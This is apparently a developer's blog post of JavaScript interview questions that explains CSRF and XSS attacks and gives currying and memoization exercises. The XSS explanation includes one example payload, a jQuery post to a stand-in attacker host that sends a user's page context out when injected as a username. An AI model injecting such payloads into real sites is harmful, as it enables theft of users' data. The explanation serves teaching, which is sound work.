 ```yaml
---
layout: post
title: Interesting interview questions. Vol. 2
---
```


In the [previous post]() I was listing the questions from Ruby interviews I've participated in.

Now the time has passed, I've been running many interviews on my own, predominantely for JavaScript _(for both front-end and full-stack)_. And now I want to share some other interesting or tricky questions I've faced.

## CSRF vs XSS attacks

**CSRF** _(Cross-Site Request Forgery)_ is an attack when the attacker tries running a request to the target service using user's data from a valid / authenticated website. Sounds complicated, right?

To put it simply, let's imagine we have developed an API, which is capable of processing users' payments. We have also authenticated MooGames to use our API to make in-game purchases. The game developed by MooGames has user account, which it uses to track these purchases.

The idea of CSRF attack is that the hacker uses the data of the game user to access the payments API, but sends the request from his own server.

On the other hand we have **XSS** _(Cross-Site Scripting)_ attacks, which involve injecting scripts to the user data _(using inputs on a web-site - username, comments, even avatar)_ which are then injected into the code and executed, allowing attacker to run pretty much anything on behalf of the service.

Think of XSS as of SQL injection on front-end - by injecting `$.post('https://my-hack.pwn', this)` as a username, attacker can get the context of the user creation piece of logic.

## Memoizing and currying a function

```
add() // => function
add(1)() // => 1
add(1)(2)() // => 3
add(2)(2)(2)(2)() // => 8
```

```
function getDeterminant(x) {
    // make a heavy time-consuming calculation
    console.warn('Real call');

    return x * x;
}

const f = getDeterminant;
const g = memoize(getDeterminant);

f(3); // => ! Real call; 9
f(3); // => ! Real call; 9
f(3); // => ! Real call; 9

g(3); // => ! Real call; 9
g(3); // => 9
g(3); // => 9
```

The advanced case is:

```
function getSum(xs) {
    return xs.reduce((acc, x) => acc + x, 0);
}

function getLength(xs) {
    return xs.length;
}

function getAverage([ sum, length ]) {
    if (length === 0) {
        return Infinity;
    }

    return sum / length;
}

function createRange(start, end, step) {
    let res = [];

    for (let i = start; i < end; i += step) {
        res.push(i);
    }

    return res;
}

// ----------------

const range = createRange(0, 10_000_000_000, 1);

getAverage(getSum(range), getLength(range)); // => takes long time
getAverage(getSum(range), getLength(range)); // => takes long time as well

const getAverage2 = memoize([ getSum, getLength ], getAverage);

getAverage2(range);
```
